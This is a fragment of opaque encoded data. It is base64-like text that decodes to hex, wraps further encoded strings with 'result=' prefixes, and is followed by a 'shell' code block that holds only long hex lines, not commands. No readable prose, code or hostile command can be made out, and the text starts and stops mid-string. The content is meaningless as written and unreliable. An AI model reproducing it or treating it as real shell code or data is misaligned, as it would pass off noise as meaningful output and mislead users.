3MzRiNTEzMDMzNWE2NzYyNDg0YzZlNjY1ODc2Njg0ZTY0Njc1Mjc1NTk2YzU2Mzk3Nzc1NjM0NDMzNGU0YTY5NzQ1YTI1MzI0MjY1MzE2MjU0NTA3ODQ1NjE2MjYzNjI2ZjU0NzUyNTMyNDYzNzZjNzEzMDQzNzI3ODUxNzY3NTU1MjUzMjQyNWE2ZTcwNjU2NDc3NzY0NTc1Mzc0ZjY3NmE1NjZjNjQ3MTMzNTczMjM2NzQ0NTQ4NTc1MzZiMzM1NDU4NDI1OTZhNmM2ZjRhNDY2ODY5Njg0ZTc4N2E2MTRjNTg0ZTUyNzQ0Njc3NjEzODM1NzQyNTMyNDY0ODczNjI1NTY3MzI0YjMyNmEzNzYxNGE1YTZmNTM3NDQyNDczNjczNjEzODI1MzI0MjM4NGI2OTU4NGEzNDM4NTc0MTY3NmU2MTU3NjE2ZDU4NzM3ODRkNTU0OTZjNDMzMzU1N2E0NDZjNDg2YzI1MzI0NjZkNDU2NDRkNmM2YTczNGE0YTUyNzgzNzM0NzYyNTMyNDI2NDYzNGY2NzYzNzI0NTM3NmM0ODUwMzc2ODY0MzQ3YTQ3MzQ0YzMwNGY0ODY4Njk0OTQyMzI3MDI1MzI0NjM2Mzk3MjU1NjU1MTc0NTU0MTQyNGE0ZDYzMzk2NzY5NmE0YzVhMzUzMTRjNjgzODU0NGQ2NTQ3MzAzNzM0NjI2OTRiMzE1MzRmMzA2ZTQxNGU0YTYxNTMzODQ1NmY3NzMwNzc1NjI1MzI0NjI1MzI0MjcyMzk3NTM0MzgzODRmNzE0ZTQxNGM0YTI1MzI0MjRhNjMzNjY2Njc1OTMxNGE1MjRjNTQzMzcyNDI0OTY5NDI0Njc3NDgzNTMyMzA2ZjcxNjE0ODM2NDM2Mzc1NGQ2YzQ5NTYzNDY4NzA2YjYxMjUzMjQyNDI1MjczNjU1NTM1NTgzNjQ2Nzk1MDU0MzU1MzUyMzY1MDY2Mzc1NDQ5NDYzODRkNDg1NDMxNGU0MjVhN2E1Njc4NDgyNTMyNDI2NTQ3NmI0Mjc4NGM0ZDYyNWE1OTc0MzMzOTQ2NWE0Yzc0NTc3MDU5NTg0ZjQ1NTE2MjY3Njg3ODU1NTQzNDczNzY3NDczNzA2ODdhNDc2ZTQ2Mzk0NjYyNGQ0ZDZjNzg2NTM4NjQzMTQxNTQ2NjQzNmQzNzQzNTE0NDcxNjU0MzM0NDI3NjY5NzEzNjMwNmY1NzQ0NmE3NTcwNDQ2OTI1MzI0NjM1MjUzMjQ2NTI2NzQ4NGM2ODI1MzI0MjQ3NGE2ZjZmNTY0ZjZiNjEzNDczNmY2NjU0Nzc0NTYzNmI0NjRhNjk2NjM1NjQzNjc2MzIzNjcyNjc3MjYzNjY3MjM1MzE1OTM2NTI2NTYyNTU0MzZmNzg1NTQ3NTE2NjY0Njc2ZjY5NzQ3OTU0NjU0ODY2NmQ2NTQ5NGIzNTYxNTg1NjQzNTM0ZTY1NTA1MTZkNzM0ZDQ1NDY0OTcyNDM2YzMwNDUzNzZlNjM2ZTQ2NGEzNjM0Mzk3OTU2NTEzNjZlNzY0NDRlNjg3ODQzNzE1NzRjMjUzMjQyN2EyNTMyNDYzNzRlMzU2MTY0NmQ3NzZkMzc3MjY0NTg2Zjc0NzYzNzZjMzU0NzUwNGEzOTQ3Mzc0NjUxNTczNTZhNDM0YzRhMzA0ZDc3NTU2NzRiMjUzMjQ2NmY3MjQ3NDU0YTZmMzkzMzI1MzI0NjUzNDkzNDcwMzY3MDU2NTI1NjZjMzc0YzM4NjM0NzYxNjU0NzRmNjMzMTU3Njg1NzU2NTI1NTM0Nzc1NzZjNDQ1NjQzMzE3ODc1NzI1MjRkNmE2YTcyNTg2NzcyNmE3MzQ0NjUzMDU5Mzk2OTQ2NmI1NDZjNDQ3NzM2NzI0YTY1NTU2NDM0NmI0YjU0NzUyNTMyNDY0NjczNjk1OTYzNDYzOTU4NjQ2YTMyNjI3MDUwMzg2YjRjNWE3NTM0NGY2MTUzNGU2YjVhMzM1NTQ1Nzc3MTRjNzMyNTMyNDI1MDYzNjEzODc2MjUzMjQyNTIzMjcxMzI0MjU4MzA2ZDZhNGU2YzY1NTk2ZDVhNzM3OTU5NzE3MjQ5NTM0NDY4MzM0Yjc1NDYzNDY5NDI3NjM2NDk0ZTYxNjc3NTQ0NDU0MzUxMjUzMjQyNzc0ODQ4NzIzMjM1NGMzOTQzNmE1OTZkNzUyNTMyNDY2ZTQ5NmM0YTZkNzk0MjMwNGY3OTYzNjI0MTQ4MjUzMjQ2NWE3MTM5NGM1MzRkNTM0OTdhNjQ0NDM2NjU2ZTZjNzg0NzY0NTE0MjY2NzU3Njc0NTk3MDQxNTA0ODY2NTEzNDYyNmQ2MTZmMzM3ODUxNzg3MzQ0MzAzOTY3NmE0MTMwNDk2YTRlMzAzNTZjMzg0Mjc2MzM2MzU1NmI2YzRiMzA2NzU0NmI0MTRlNTU0NTU2Njg1NTQ3NjI1MTM3NGM2NzRlNDMzODQxMzU0NzI1MzI0MjQ1NzA1NTQyMzMzMjc1NzIzNzMyNTkyNTMyNDI0ZTQxNDY0YzY1NDM0MTY0NTk2NDM4NjM3YTczN2EyNTMyNDIzNTMxNGI0YjRlNTE3MjMzNTYzMjM5NTEzMTZiNTg1YTU4NDc1ODUyNzE0ZTU1NTA3NjYxMzg2YjQ0NmY2Njc3NDM3NDc0Mzg0ODZkNjczNTM1MzQyNTMyNDIzMDU5Nzg0NTRlNGU1OTM1NTMzNzYyMzczMjQ4Mzc0YTc3MzQ2Yjc4NTE2MTI1MzI0MjRmNjUzMjc2NmI0NTZlNDI2YzM2NDU2MjQ0NTY2OTMyNjc3MTQ2NjQ0Zjc3NzY0MzcxNTE0NDM3NjM0YzUwMzU2YzM3NzQ2MjZiNjI1NzUyNDI2Yzc0NDM0YjcwNzY2YzYxN2EzMzcwNGE2NDM0MjUzMjQ2Nzg3NTQyNmI1NjQzNWE0NDQyNGQ3MTZmNDYyNTMyNDY1MDU1NDk3NDM0NmQ1MDQ0Njg2ZDRlMzAzMjY4NzI0MTM1NmE1NjMxMzU2NjZmMjUzMjQyNmY2NDM4NmM1OTQ2NjE3YTc4Nzg1YTQxNmE2NzM0NzY1NjM1NmQ2NTQ1NGMzMzRiMzM2ODRhNjY1MzUzNmQ1NDc0NGM2Mzc1NTg3MDQzNDg3Nzc4NDQ0MTMxMjUzMjQyNzY0ZjYzNDc1NjczNjE3MDc3NTQ2ZTMyNzY0OTZjNzk3NTRmNmM3MTMzNDE2NzcxNGI2MzU4NzIzMTYxNDY2MjM2NDQ0YTU5NmE2ZTQ5NjcyNTMyNDY2ZjM4Njc2MjRhNTgzMzZjNDUyNTMyNDY2MjMwNWE2YzU2NTA1OTQ2NDI3ODMwNTc2NjQ5MzA0MTI1MzI0NjUzNTc1MjczNmQ0ZTRkMzc0OTQzNTQ0YTQzNTg3MjQ3NmU2YjRjNGI1NDc5NjY3NzU4NTg3NDU3Njg0YTc0MzM0MjM0NDY1NjY3NjQ2ZQo3MjY1NzM3NTZjNzQzZDZmNGM0NzcwNmU0ZDM4NzQ0NDcyNDgzOTI1MzI0NjRhNDI2NTM1NDc1OTU0NzI2NTc3NzY0ZTQ2NjM2YzUzNTc1ODQ2NjY3NTc2NmY0YjY2NDYzMzU3NjU3YTZhNjg2YjRlNGQ0YTM1NjE0NTc0MzM3NzYzNDE1NTZjMzI2MzY5NjIzMDQxNzQ2NDczNDk0MjVhNzQ2NzZmMzM0ZDMzNGM0YzRjNmYyNTMyNDY1OTYyMzE1OTQyNDY3MjQ5NzkyNTMyNDI1MjU0NWE1NzMyNzI3NzU3Nzk1MzQ1MzM0ODQ1MzE2ZDM0NDE0Yjc2MzI1ODZiNTc0Zjc2Nzc3NTYxNzA0MjQyNDMyNTMyNDY2OTc4NmI3MDM5NTUzNDY0N2E3NzUzNjQ2ODZhNGY1OTQzNDk2YjI1MzI0NjZkNTQ1ODRjNGE2MTQ3NDQ2OTZmNTQ0ODdhNDQ0YTQzNTg3NTY5NjM0NTRkNTAzODRmMzQ3NDYyNzA0NDYyNjI0NzY0NTA0ZjUwNDg2ZDM0NDg0ZjQ4NGUyNTMyNDI1NjU1N2E1OTcyNjM3NDQ2NmY1Mjc5NDc2ZDM2NjE1YTM3NDM0ODc5Nzk2NDZiNTE1MDcwNmM0MjU0NmU2YjczNDg0ZTM0MzM1NzUyMjUzMjQyMjUzMjQyNDMzNjM5NmQ3NjUwNTk2NjUzNzY0NzU0NDk2YzQ4NDc1MDU3MzY3OTZhNDc2MjY3NzI3NDUxNTI2YTU3NGY2NjQ5Nzk1ODVhNDQzMDU4NzY0NzMwNjMzOTYyMzU0NzdhMzA3ODQ3NGE1OTM5NjE3ODUwNmY0NTZhNWE0ODUxNmM3MzQxNzQ0YzRkNDE2NDQ2NTMzNDUzNzQ1NjU5MzE0MjZhNGMyNTMyNDY3OTQyNGY2NzM2NjgzOTdhNmQ3NTMxMzA2ZTVhNzc2ZTc1NDQ3MDI1MzI0NjY5NTg1MjZhNTY2ZDYyNmE0NTRhNjU1MzUwNTk3NzY0NzM0ZjY5NDM2ZDQ4MjUzMjQ2NzU2MjZiNDU0YzZjNjIzNzMyNjIzNjdhMzk3NzM4MjUzMjQ2NzA3NjM2NTQ3MjZkNDM0YTU3NGI1MTZmMzE3MDMwNmQ0ZTU1NTg3NzczNzQ0YjRiNDg2Yjc3MzQ3MDZlNDI1NzM1NDk0NzM5NDg3NzRmNGY2YjUyN2E0MjcxNDIzNzc5NmU2MTM0MzM2NzQ3NmE0NTRlN2E2NzY0NmQ3NTUxNTc1YTYxMzMzNTZjMzc2ZjdhNzUzNTRiNTA2YTY3NTYzNTRjNzc0ZDY2NTQ2NTU5NTc0NDcyNmU0OTQ5MzI3MTc2NmEzOTM5NmEzNDQ2Njg1NzczNzg0NTU0NzQzODM1MjUzMjQyNTQ2NjQ5MzQyNTMyNDY1YTYzMzM2NjQxNDU0NDM4NGU3NDY5NDE3MzM1NzM3ODYxNmIzMDMzNDI0MTY4NTg2ZTMyMzY3ODQ2NmM3NzU3MjUzMjQ2NjY0MjQ0Mzc1MTcwNGQ1MDZjNTU3NTU0NzMzMTQ1NmY2Mzc1NmUzNDc0NDc1MjUwNTY2NjUzMzc2YTRmMzg0NDZkNGIyNTMyNDY0NzZjNzgzODMxNTMyNTMyNDYzNDQyNzkzNjM2MzU0ZjU2NDIzOTU2NmEzMjdhNGM1MTY4NzE2NjQxNzM3MzU2NTE1NjZlN2EyNTMyNDI2NTZjNjM3MTQ2NjM0MjQxNDg0MjI1MzI0MjQ3NmI2YTM1NGE0YjQ0NmIzNTU1Mzc0ZDY1NGY0ODRlNjkzMTQ3NmE3ODc5NzI2ZDc3NzY1NjRmNmUzNzcwMzY1MzQ4NjQ1NDM1NTc0NTM0NTMzOTYyNGQzMzUyNGI2ZDY5NDE3YTM3MzY2NDY1MzY2ZDMyNmE2ZjdhNTM3MDc3NzIzNTZiNTY2NDM1NmM0NjY4NzI1MTUzMzM0MzZmN2E2OTc3NzY3NzZiNDg1OTRmNGQ3NTM3NmMzMTZlNzU0MzZiNGUzNjM1NDU2NjZjNTk1Mjc0NTM2NjU2NmU1MDMzNjU2NzM4NTE2YTQ0NTQ2ZTYzMzY0MzZhNjg0YjI1MzI0NjcwNTQ0NDRiNDQ1NTZmNzI3MzQ2NTEzOTM5MzEzNDU4MzI2ZTQ1MzY3Nzc3NmE2NDY0Njc0MTMxMzYzMTU1NGY1MDU3MzQ3Mjc3NDgzNDUxNzMzNjQzNTE0YTM5NjI2NzQ0NDIyNTMyNDI0MTZmNGQ2YjUyNzM0OTI1MzI0MjY0N2E1YTU0NzI2YzUxNDc0Yzc2MzE0MzY3NTgzMjMwNDkzMzY1Nzg2ZTQ2NmI1MTQxNDU3YTZkNDQ1NTZmMzE2OTczNTQ1MjdhNDM1YTUxNGQzNTRkNjk0MTYyNGM3NjY5NmY1YTU0NDY3MDc1MzQ2MzM5NjY0ODM1MzQ0YTQyNGQ1NjQ2NDk3NTRkMzM1OTRjNjkzNjdhNzQ3NTRkNDc0YzM0NzYzMjYzNTc2MjZhMzgyNTMyNDY2YjdhNjY1NjRjNDQ2NDQ3MzM2ZDRiNGM1NTVhNDgzNjYzNTU0YzQ2NjEyNTMyNDI3MDM0Nzc3MjYxNTU0YzYyNmQ1OTRjNGMzNDY0NDkzNzc5MzI2OTQxNjE2NzUxNzU0ZjU4N2E3MTY3NTQ3NTcxNjIyNTMyNDY2NDZmNmQzODcwNzgzMTRhNDM2MTRkNmY0MTUyNjg2OTdhNDg1NTM5NGU0YzcwMzMKNzI2NTczNzU2Yzc0M2Q2ODI1MzI0NjUyNDU0NjM5NGM0ZjY5NGU2NTMyNGIzNDM2NzA2NzY1NmEyNTMyNDI2MzI1MzI0MjM1NmM0NjYxNGQ1MjZlNzgzNDMwNzU0YTM2NGE1NjQ0Mzg3MTc1NTc0NzU0NGU2OTM2Mzk0OTU1NTU2OTUwNmI2ZjU3Nzg2NDczNzQ2MzY1NzMzMTMyNTM3OTU4NDQ2NDY3NDkzOTQ4Nzc1NzMzMzc3ODcxNmQ1MDZjNDc1MDMyNjM2ZjRlNzE2ZDcxNDI0NTRhNTYzMjU0Njc2MjY4NTc0ODY5NmM3MzZjN2E2NTU4NGY1NzMzNmU3NTUyNGU0YTM3Nzg3MTYyNzM2YTQxNmM1OTVhNzY3YTU0NjQ1MTZlNDY0ZTQyNzk0MzU5NTU0ODQ1NTg2ZTY4MjUzMjQ2NzU2Mzc0NTYzMDdhNTM1OTQ5NTAzMjMzNTE3NjRhNTI1MDZkMzYzMTM3NjYyNTMyNDYyNTMyNDI2MTM0NmM3MzY4NjUzODc4NGM2YTUwNjMyNTMyNDY0MzY4NmI2YTY4NmI3MDU4Mzg2YzcyNGY1OTRiNzU2NzU3MzA2OTZkNTA0ZDZmNmM3NjZmNzk1MzZhMzUzNjM3NmU2YjZmNTg0NjM5MzU1MDc3NDc0NjQ5NmE3MjYyNjg2ZTM5MjUzMjQ2NmE3MTZhNGI0ZTU3NjI2MTMyNGU1MjRkMzE1YTc3NmI3MTcyNzE2YjMxNGYzMzRmNzc0Zjc1NTk2ZjZjNjM1NjZhNjY2YzM4NDM3NDUyNzYzMzcxNDk2YjZjNzY2OTQxNGI3MTY2NTk1MzMzNTc0NTU4NWE3MTM0MjUzMjQyNzk1OTZjNDk0MzY2NWE0NTU2NjU2YjRmMjUzMjQyNGM1NDZiNzk2ODQ2NmQ2MjZlNDYzNjRjNDg3MDM2NWE3MTRlMzY0MzQyNTQ1NDMzNmI0OTVhNjY1MDUxNzI0OTUyMzg2ZDY4NzI0MjUzNzY0ZDU4NTY0MzMzNDU3MjU0NTk1MjRkNDU2ODYzNzY0YjQ0NTc2YjZlMzQ0ODc1NzU0YTY4Mzk1NDQ1NmY3MTcxNjQ0YjUxNDU1Mjc1NmE2YzM1NGM0YzcxMzA0OTUwNDk0ODQxNTA0NTI1MzI0Mjc4NjQyNTMyNDI1OTQ3NjM1NTQ3Njg0ZTYyMjUzMjQyNmY3NjZmN2E3MzQ3NDM0MjZiNzM3MTc1NjgzNjcxNDc1MTU5NDQ1MzM1NTg1MTczNjMzNDMzNTg0YjY0NDI3MTZlNDY2ZjUwMzk1ODVhNTQ2MTM2NzAzNDRiNGU1NjQyNzY0ZTU4NzU1MjM4NDM3NjUwNDQ2ODZkNGI0NDY1NWE1NDcwNjQ0Yjc0NzM0NTUzNTI0YjczNmQ3NDYxNTA2NjZhMzg1MTZjNjUzNzdhNzUzMzZiNjY2MjY0MzI2MjMwNTI0MzY0NjQ3YTM3NTQ0ODU1NDQzNDM2MjUzMjQyNjUzMDU1NmE3NzU0NzQzODI1MzI0Mjc5NmY2NjRiNTE1NjdhMzM0YTQ4NmQ0NTc3NzE0ZTQzNTM3ODc0NjE2Nzc2NDg2ZDMxNjg0ZDQyNmU2NjcwNGM1NzU0Nzc0ZjdhNDE2MzM5NDgzMDcyMzQ0OTczNzc0YTY5NmU0ZDYyMzA2Zjc2NzQzMTY0NDY1NzQ3NTM2NDYyN2E2MzM0NzMyNTMyNDYyNTMyNDI1OTRjNTM2NTY2NDQ2NTY0NTI1YTQ4NTg1NzM5NDY1NzcxNTM2NzZmNDk1ODQ3NDI2MzI1MzI0MjQ1NTE2ODc1NDY3NjUxNTE1MDY5NDkzNjY4NTQ1NDcxMzYzNDU5MzgyNTMyNDI1MTcwNDI0MjcyNDc3YTU4NjI2ZjcwMzgzMzcyNDQ0NzUwNDI1MDczMzk1YTc0NzY2MTY2NTY0NDRlNTkzNDYyNDEzNTRlNGQ0Mzc1Nzk3NDRmNTU0MjM0NmE0YjM1MzA1MTY3NjY3MDUwNmE0OTZjNTY2NjRkNjE2YTU0Njg2OTY4NTI2ODY0NmY2MTM2NjQ0YTZjNzE3NTU2NmM0ZTcxMzQ3MDYzNDY1ODMzNjU1NDcxNTgyNTMyNDI1NTQ2NTE2YzY0NmM2ZDc3NTA3OTc4NTY2NzQ5NDYzODc1NTg0NzRhNTI2NzMyNTU0ZDc1Nzc1OTU2NTk0NDcxMzA2ZTRmNDM1NTUwNjk2MjQzNGEzODQ4Mzc3MDc3NjI2ODUzNTY0ZDQ2MzgzNzRjMzE3NzcwNDk2NzUwMzIyNTMyNDY2NTQyNTM0NjMxNGQ0OTc5NjY3NTM2MzIzMTY4NDk2ZjU4NGQ0YzY5NjI0NDU1NjE3ODRjNzU3MDcxMjUzMjQyNDY1ODZmNDk2ODZkNzMyNTMyNDIzNTRmNzczODZiNzk3ODY0NjkzODQ1NGY1YTQxMzUzNTQxMzI0MjM1NzAzMjI1MzI0MjU5Mzk2YjVhNzc2MTQ5NzA1MDczNzU1MDZiMzM2ODM3Mzg0YTI1MzI0MjUxNzY0NDZkNDQ3NzYyNjUzMjU1MzQ0OTRkNTM1ODU2NzYzMjM1MzI1NDcxNzU2ZDYyNzk2ZDc3MzQ3MDZkNGU0ZTc4N2E1ODUxNTI0MzQ1NTEzNDQyNmM2MzQ3Nzc0ZjUwNTk3MTc4NTA0MjZiNzg2NDY3MzM2YjI1MzI0MjQ2NTczMTdhNTA0MTQ2NTM0ZTRiNzkzNTU4MzMzODRkNDM3MzdhNDE1YTI1MzI0NjY5MzE2NDYzNTg1OTc3NTM2ODZhNmEzNDU2NzI1YTRjNGQ0ZDI1MzI0MjdhNjk3NDU5Nzc0MzQxNzIzNTc4Nzg1MDUyNDU3MjQ3MzM2NDQ4NjQzNDZmN2E0ZTM4NmE0YjM2NzQ2YjRmNDc1ODc0NjIzODUxMzk3MzZkNjM1MTQ3NzQ0ZDRjNzk2NzZjMzEzOTM4NDU2NjU4NzQ3NDUxNzU2OTY1NjE0NTRmNzc2ZTYzNzI2ZDZmNTI1Njc2MzM1MTU2MzYyNTMyNDI3NzZmMzQ3MTVhMjUzMjQ2NmE1NTc4Mzc0YjRjNTg2MTZiNmQ0NzY4Njg2ZTcyMzQ3MDM2NGIzNDY0NGM3NzU0Mzc1MTUyNGY2OTUzNzQ3NTU2NTU3OTc1Nzg0ZTcyMzc0MjY5NzM0NTY4NTQ0YjU1MzU1MDcwNjk1Mzc2NDM3NzZmNDU2YzMyMjUzMjQyNzY1OTc2MjUzMjQyNTg2NjU4NDMzODZiNDE0YjM3MjUzMjQyNTU1YTY4NGEzNzZhNTczMzQ1NjU0ZTQxNmM0NzcxMzM3Njc3NmYyNTMyNDI1MDQ1MzA0NDQ2NTU0NjYxNGUyNTMyNDY3OTY5NDM3MzYxNTk1MTYxNmU3NzM1NzMzNjUxMzIyNTMyNDI2MjZmNGU3MDY4Mzc3OTYyNGI0MjU1MzE2YTRiNmEyNTMyNDI2MzcxNmU0MzY4MzQ2MzZjNzU2ZDM2NWE0OTZkNTg0YjZkNzU2NzRiN2E3YTUxNDkzNTQyMzUzOTM1NmI2YjY3NjM2OTMyNDc2ZDcxNGIzODYzNzQ2ZTU1Mzc3ODRmNzU1NjUwMzQ0NzQ4MzM1NjUxNmI3NDM0NDg3NDc0NjI2NTQ1MjUzMjQyNTEzOTUxNDQ0ZDM1NTE2MTQ5Mzg0MTRmNjkzMjU3NTU2YzI1MzI0MjI1MzI0MjU3MzM2MjY1NzY3MTUwNjYzNDc3NTM1MDZlNmIzNDZiNDE2MzI1MzI0NjI1MzI0NjYzNTM2NDcwNDg0OTI1MzI0MjM5MzA1NTI1MzI0NjRlN2E3MzY5Nzc2YzRkNTEzODU2NDE2ZjUwNmE0YTI1MzI0MjYyMzI1NjQ4NTc0ZjM1MzEyNTMyNDYzMTU1NzE1ODU1NTQ2ZTczNTc3MTQzNzQ0ZDMwMzg2NDc0NDg2ZTc4NmQ3NzY0NjY3MDMzNmQ0ODRjNDUzMTQ0NDQ1NzZiMjUzMjQyNDY3ODc1MjUzMjQ2MzYyNTMyNDI2ODRlNTE0Njc2MzQ2ODRkMzU2OTcyMzQ0OTQzMzU0YTc3MzI2NDY4NmE1OTMwNjUzNTRhNWEzODczMzE2NDY0MzIzODczMjUzMjQyNDQ3YTRiNGU2YjM4NDE2MTRkNzEyNTMyNDI2ODMwNGY0ZTU3NmI3YTRiMzY1OTQ2MzE2ZDU3Mzg2MjU4NGU1MzQ4NjE1MDMyNDE2NzM5NDU2ZTUwMzUzMDRiNTA1MDVhN2E3NDY2NjM3NzZhNTU2OTc5Mzc2NDU5NTIzMjZmNTg3MTQ5NTA0YTY5NTMzOTRlNzc3YTZmNjk2YTRhMjUzMjQ2NmM2YzU0NDY1MDRlNGY0ODM3MjUzMjQ2NzY1NTM1NzA0MjcwNjM2NzM3NDkyNTMyNDI3MjcxNmI3MjI1MzI0NjYxNzk0MzU3MzI3MzY5MzM2ZDY0MzQ2NTczMzI0ZDcyMzIzMTcwMzA3YTM4Njk3NDczNzI0NDQ1NzI3MjYxNzc2YTU4Mzc2MzYyMzMzMDcyNTIzNzQyNDU0NTU5MjUzMjQyMzk2NjU1N2EyNTMyNDY3NTc4NTM3NjYxNjY3NTQ2NDczMDQzNDU1NTVhNzg2NDU4NmM2YTczNTA0ZTdhMzkzNDI1MzI0NjQxNGU3NTM0NzE0MTY5NDE3MTc4NWE2NTUyNzc0ZDcyMjUzMjQyNGQ1YTczNzk1ODI1MzI0NjY0NTk1YTZmNTI0NTZjMzczNDczNmIzNDZkNGY2NzMwNjk2YzRjNjg2ZDU0NjY0NjQ2NGUzNjY0MzA3NDY1MzE2NTczCg))

```shell
616978385278727146673957693275694536423842566772354c35317835354378787877347a7070504f4e7158736b4b6f652b4e374f4d44673164303670546a
6c754671586d69464e316b795866476b7872443947756b6f65634444357336584c4a776c484a32542f59753746384e6b48777642777574307573302f7262734a616257615648343757485477504564476e6a32727864736d306f37646e733470746b525134636b58397578774d4c4b71465779677a62396f53564137425237696c736a6b42777676534a446d4b434f634954494354673d3d
73794a467841654a6a64734e587252707a45656e5966593435583141672b33444d632b3856316d6f4d48344a3937644d66344444356c4d695145424e416f6849786d6e6a59473262443973467a4c683973434e58516e723578727a474453714b7a58692b43624d47596b797666416f76614b374472647a6477522b774d4851506a7537756a447a326d30573247336d6c704c762b667a32396d454662364562744a7063774e2b6d566b6a50735754694c74714e69737a7459324f6743764b6b6a444c4432314b653269697a686844446346574f6334677a3550515358786c454c615073625a31306669564556465755584e4c414d334d545567486d51755941394148437157516d53657756312f6949636f5a2b46774a42324832534a536e5a744c4c684e73426b5367475956616541722f32437a4b525745613631314836626c776c2b53776836747a39466333556953417532313076557264545741543774327256504246547367344f317775447842616364503161567359414b43505579677078786e78776a6465736944756a61316e4e55375a66422f2b41686277783564463141423768674c543541516b4c576568776672783462497a34304a554a74683753346f4e53706f4c6972335a7a746438742f4c79454f4f37715a4570723864356c6962475a6e67725955786f4f454d4a6b6f654d6b367266657042696f444d46734b5130335a6762484c6e665876684e64675275596c563977756344334e4a69745a2b65316254507845616263626f54752f376c7130437278517675552b5a6e70656477764575374f676a566c64713357323674454857536b33545842596a6c6f4a466869684e787a614c584e52744677613835742f4873625567324b326a37614a5a6f53744247367361382b384b69584a34385741676e6157616d5873784d55496c4333557a446c486c2f6d45644d6c6a734a4a52783734762b64634f67637245376c4850376864347a47344c304f486869494232702f363972556551745541424a4d633967696a4c5a35314c6838544d654730373462694b31534f306e414e4a615338456f773077562f2b7239753438384f714e414c4a2b4a6336666759314a524c543372424969424677483532306f716148364363754d6c49563468706b612b42527365553558364679505435535236506637544946384d4854314e425a7a5678482b65476b42784c4d625a59743339465a4c74577059584f4551626768785554347376747370687a476e463946624d4d6c7865386431415466436d37435144716543344276697136306f57446a757044692f352f5267484c682b474a6f6f564f6b6134736f66547745636b464a69663564367632367267726366723531593652656255436f785547516664676f697479546548666d65494b3561585643534e6550516d734d45464972436c3045376e636e464a363439795651366e76444e68784371574c2b7a2f374e3561646d776d377264586f7476376c3547504a394737465157356a434c4a304d7755674b2f6f7247454a6f39332f5349347036705652566c374c3863476165474f63315768575652553477576c44564331787572524d6a6a725867726a73446530593969466b546c447736724a655564346b4b54752f4673695963463958646a32627050386b4c5a75344f61534e6b5a33554577714c732b50636138762b523271324258306d6a4e6c65596d5a737959717249534468334b75463469427636494e616775444543512b7748487232354c39436a596d752f6e496c4a6d7942304f79636241482f5a71394c534d53497a644436656e6c7847645142667576745970415048665134626d616f3378517873443039676a4130496a4e30356c3842763363556b6c4b3067546b414e5545566855476251374c674e43384135472b45705542333275723732592b4e41464c65434164596438637a737a2b35314b4b4e51723356323951316b585a58475852714e55507661386b446f667743747438486d673535342b305978454e4e5935533762373248374a77346b7851612b4f6532766b456e426c36456244566932677146644f77764371514437634c50356c3774626b625752426c74434b70766c617a33704a64342f7875426b56435a44424d716f462f50554974346d5044686d4e3032687241356a563135666f2b6f64386c5946617a78785a416a67347656356d65454c334b33684a6653536d54744c63755870434877784441312b764f63475673617077546e3276496c79754f6c71334167714b6358723161466236444a596a6e49672f6f3867624a58336c452f62305a6c5650594642783057664930412f535752736d4e4d374943544a435872476e6b4c4b5479667758587457684a74334234465667646e
6f4c47706e4d3874447248392f4a426535475954726577764e46636c535758466675766f4b66463357657a6a686b4e4d4a3561457433776341556c32636962304174647349425a74676f334d334c4c4c6f2f5962315942467249792b52545a5732727757795345334845316d34414b7632586b574f76777561704242432f69786b70395534647a775364686a4f5943496b2f6d54584c4a614744696f54487a444a4358756963454d50384f347462704462624764504f50486d34484f484e2b56557a59726374466f5279476d36615a3743487979646b5150706c42546e6b73484e343357522b2b4336396d7650596653764754496c4847505736796a476267727451526a574f664979585a44305876473063396235477a3078474a59396178506f456a5a48516c7341744c4d41644653345374565931426a4c2f79424f673668397a6d7531306e5a776e7544702f6958526a566d626a454a655350597764734f69436d482f75626b454c6c62373262367a3977382f70763654726d434a574b516f3170306d4e55587773744b4b486b7734706e42573549473948774f4f6b527a42714237796e61343367476a454e7a67646d7551575a6133356c376f7a75354b506a6756354c774d665465595744726e49493271766a39396a34466857737845547438352b546649342f5a633366414544384e74694173357378616b3033424168586e323678466c77572f6642443751704d506c5575547331456f63756e3474475250566653376a4f38446d4b2f476c783831532f3442793636354f564239566a327a4c516871664173735651566e7a2b656c63714663424148422b476b6a354a4b446b3555374d654f484e6931476a7879726d7776564f6e37703653486454355745345339624d33524b6d69417a37366465366d326a6f7a53707772356b5664356c466872515333436f7a697776776b48594f4d75376c316e75436b4e363545666c5952745366566e5033656738516a44546e6336436a684b2f7054444b44556f727346513939313458326e453677776a64646741313631554f5057347277483451733643514a39626744422b416f4d6b5273492b647a5a54726c51474c76314367583230493365786e466b5141457a6d44556f31697354527a435a514d354d6941624c76696f5a54467075346339664835344a424d564649754d33594c69367a74754d474c3476326357626a382f6b7a66564c446447336d4b4c555a483663554c46612b7034777261554c626d594c4c3464493779326941616751754f587a7167547571622f646f6d387078314a43614d6f415268697a4855394e4c7033
682f524546394c4f694e65324b34367067656a2b632b356c46614d526e783430754a364a56443871755747544e69363949555569506b6f577864737463657331325379584464674939487757333778716d506c475032636f4e716d7142454a5632546762685748696c736c7a65584f57336e75524e4a37787162736a416c595a767a5464516e464e42794359554845586e682f75637456307a53594950323351764a52506d363137662f2b61346c73686538784c6a50632f43686b6a686b7058386c724f594b75675730696d504d6f6c766f79536a3536376e6b6f5846393550774746496a7262686e392f6a716a4b4e576261324e524d315a776b7172716b314f334f774f75596f6c63566a666c38437452763371496b6c7669414b71665953335745585a71342b79596c4943665a4556656b4f2b4c546b7968466d626e46364c4870365a714e3643425454336b495a665051724952386d68724253764d5856433345725459524d456863764b44576b6e344875754a683954456f7171644b514552756a6c354c4c7130495049484150452b78642b5947635547684e622b6f766f7a734743426b737175683671475159445335585173633433584b6442716e466f5039585a54613670344b4e5642764e5875523843765044686d4b44655a5470644b74734553524b736d746150666a38516c65377a75336b666264326230524364647a375448554434362b6530556a775474382b796f664b51567a334a486d4577714e43537874616776486d31684d426e66704c5754774f7a416339483072344973774a696e4d62306f767431644657475364627a6334732f2b594c536566446564525a4858573946577153676f49584742632b45516875467651515069493668545471363459382b5170424272477a58626f70383372444750425073395a7476616656444e59346241354e4d437579744f5542346a4b353051676670506a496c56664d616a546869685268646f6136644a6c7175566c4e71347063465833655471582b5546516c646c6d7750797856674946387558474a526732554d75775956594471306e4f4355506962434a3848377077626853564d4638374c317770496750322f65425346314d4979667536323168496f584d4c6962445561784c7570712b46586f49686d732b354f77386b7978646938454f5a4135354132423570322b59396b5a77614970507375506b336837384a2b5176446d44776265325534494d535856763235325471756d62796d7734706d4e4e787a58515243455134426c6347774f5059717850426b786467336b2b4657317a504146534e4b79355833384d43737a415a2f6931646358597753686a6a3456725a4c4d4d2b7a69745977434172357878505245724733644864346f7a4e386a4b36746b4f47587462385139736d635147744d4c79676c3139384566587474517